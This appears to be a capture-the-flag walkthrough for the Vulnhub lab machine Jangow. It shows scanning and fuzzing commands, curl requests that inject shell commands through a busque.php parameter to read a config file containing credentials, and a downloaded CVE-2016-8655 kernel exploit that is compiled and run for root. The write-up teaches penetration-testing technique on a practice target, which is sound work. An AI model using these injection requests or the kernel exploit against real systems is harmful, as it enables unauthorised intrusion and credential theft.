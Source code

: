 ```yaml
---
title: CTF Walkthrough for Vulnhub Machine Jangow
category: [Walkthrough, CTF]
tags: [vulnhub, writeup, jangow, machines, pentest]   
image:
  path: /assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/box-jangow.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Jangow an easy machine among Vulnhub machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Jangow<br>
Goal: Get two flags<br>
Difficulty: Easy<br>
Operating System: Linux<br>
Download link: [Jangow](https://download.vulnhub.com/jangow/jangow-01-1.0.1.ova)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>

## Reconnaissance
We can't attack what we don't know so we first need to identify our target on the network. I used Nmap to carry a host discovery scan to identify all the live hosts on the network.
```bash
nmap -sn 10.0.2.15/24
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/hosts-dis.png)

After identifying the target, we can proceed by performing a service scan on the target.
```bash
sudo nmap -sV -sC -n  10.0.2.8 -oN services-dis.nmap
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/services-dis.png)

From the result obtained, we can see the target runs an FTP and an Apache web server. Since anonymous login is not available on the FTP server let's visit the web application
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/first-browse.png)

We can see the directory **site** clicking on it gives us a fully interactive web application.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/second-browse.png)

The web application looks normal. When we navigate through the website using the navigation bar we see that the element named Buscar redirects us to a busque.php page which accepts an argument named buscar.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/buscar-navigation.png)

This is an uncommon word for me so I did a quick Google search and realised that buscar is a Portuguese word that can be translated as 'search for' in English. From the translation of the word buscar we can deduce that this php page has a search functionality. Let's fuzz for all search terms available on the page.
```bash
ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.8/site/busque.php?buscar=FUZZ -fs 1
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/value-fuzzing.png)

## Exploitation

We can notice that all these search terms are common command line commands. We can try the common command ```id``` and we can see that it is executed by the target.
```bash
curl http://<IP addr>/site/busque.php?buscar=id
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/testing-buscar.png)

Since this file executes commands on the target. Instead of directly attempting to obtain a reverse shell we should first of all understand how this file executes commands i.e. if any filter is put in place to filter commands. To do this let's try to read the content of this file.
```bash
curl http://<IP addr>/site/busque.php?buscar=cat%20busque.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/busque-analyses.png)

We can see from the content of this file that no filter has been put in place by the administrator of the web application. I tirelessly tried to obtain a reverse shell but it failed this may be due to the presence of egress filters *NB: Egress filtering is the practice of monitoring and potentially restricting the flow of information outbound from one network to another.* Since we can't obtain a reverse shell we can use this webshell to enumerate the system. We can start by listing the content of the current working directory. We can see that this directory contains and interesting directory named wordpress. When we list the content of the wordpress directory we see a configuration file that contains credentials for the user jangow01.
```bash
curl http://<IP addr>/site/busque.php?buscar=ls
curl http://<IP addr>/site/busque.php?buscar=ls+wordpress
curl http://<IP addr>/site/busque.php?buscar=cat+wordpress%2fconfig.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/file-enum-1.png)

We can use this credential to log in to the FTP server as shown below
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/ftp-connect.png)

Since we can't obtain a reverse shell let's access the machine and log in using the credentials we discovered above.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-auth-1.png){: .center}

This access gives us the ability to read the user flag on the system and continue our enumeration process.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-flag.png)

## Post Exploitation

I tried several manual enumeration techniques and at the end, I enumerated the kernel version to see if the was any public exploit.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/kernel-version.png){: .center}

Looking online we can see that this specific kernel version appears to be vulnerable to CVE-2016-8655. Let's download the [POC](https://www.exploit-db.com/exploits/47170) of this exploit and upload it to our target.
```bash
wget https://www.exploit-db.com/download/47170
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/download-exploit.png)

We can now upload this POC to the target using the FTP service it runs. Upon testing the FTP service run by our target we can discover that path traversal is enabled, hence we can move to the **/tmp** directory and upload the exploit's POC.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/exploit-upload.png)
*NB: In case path traversal was not enabled we could grant our self-writing privilege on a directory in the web root directory and upload the POC in that directory using FTP.*

Once we upload the POC to our target we can compile it using the inbuilt gcc on our target. The instructions on how to compile this POC are in the comments.
```bash
gcc 47170.c -o poc -lpthread
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/compile-exploit.png){: .center}

After compiling the POC we can run it and we shall obtain a shell a the root user. 
```bash
./poc
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/root-shell.png){: .center}
Great, with this access, we owned the machine and we can read the root flag found in the root directory.

## Conclusion
Congratulations! In this walkthrough, you have used your enumeration skills to enumerate across the system to find credentials and then used these credentials to log in as a normal user. Finally, you successfully exploited a kernel vulnerability to obtain root access to the target system. This machine demonstrates how poor maintenance of updates can significantly impact an organisation's security posture. Thank you for following up on this walkthrough.









